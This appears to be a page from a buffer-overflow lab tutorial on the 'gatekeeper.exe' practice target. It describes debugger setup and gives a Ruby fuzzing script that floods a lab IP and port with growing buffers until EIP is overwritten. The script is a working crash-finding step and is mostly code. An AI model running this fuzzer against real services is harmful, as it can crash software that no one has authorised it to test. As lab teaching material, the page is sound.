 Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Ruby template
```Ruby
require 'socket'

buff = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:

![Python_Spiking](runRubySpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopRubyspiking.png)

We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
